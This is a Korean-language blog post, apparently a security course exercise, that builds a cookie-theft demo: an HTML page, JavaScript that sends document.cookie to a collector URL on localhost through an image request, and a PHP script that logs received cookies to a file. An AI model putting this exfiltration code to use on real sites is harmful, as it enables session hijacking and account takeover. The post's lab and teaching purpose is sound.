```yaml
---
layout: single
title:  "4주차 쿠키 탈취 만들기"
categories: project
typora-root-url: ..\
author_profile: false
---
```


<br>

# <span style="background:#000000; color:#ffffff">1.쿠키 탈취 만들기</span>

<br>

http상태 200 으로 양호하고, user = normaltic 이라는 쿠키를 담고 있습니다. 이 쿠키를 탈취해봅시다.

![image-20240514195031752](/images/2024-05-14-Project6/image-20240514195031752.png)

## 1.1 Cookie Hijacking.html

<br>

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Security Test Page</title>
</head>
<body>
    <h1>Cookie Hijacking 테스트 하기</h1>
    <script src="Cookie Hijacking.js"></script>
</body>
</html>
```



## 1.2 Cookie Hijacking.js

<br>

```javascript
window.onload = function() {			# http요청이 완료되었을때, user=normaltic이라는 쿠키를 설정하고, 서버로 보내기
    document.cookie = "user=normaltic; path=/";
    sendDataToServer();  
}

function sendDataToServer() {			# 탈취할 url중 쿠키는 인코딩하여,이미지 파일을 불러옵니다.
    const cookieData = document.cookie;
    const attackURL = "http://localhost:8080/receive.php?cookie=";
    new Image().src = attackURL + encodeURIComponent(cookieData);
}
```

이미지 파일을 불러오는 이유 :  사실 이미지 파일이 없어서 이미지를 불러오는 건 중요한 게 아닙니다. 하지만 url로 요청하게 되면 동시에 get 방식으로 서버에 쿠키 정보를 넘겨주는 역할을 수행하기 때문에 이미지 파일을 불러오는 것 입니다.

## 1.1 receive.php

<br>

```php
<?php					# 쿠기의 정보를 cookies.txt 에 저장하기.
$cookie = $_GET['cookie'];
file_put_contents('cookies.txt', $cookie . "\n", FILE_APPEND);
					#(파일명, 쿠키정보 .줄바꿈 , 파일 뒤에 정보 계속 추가하기 )
```

![image-20240514203739235](/images/2024-05-14-Project6/image-20240514203739235.png)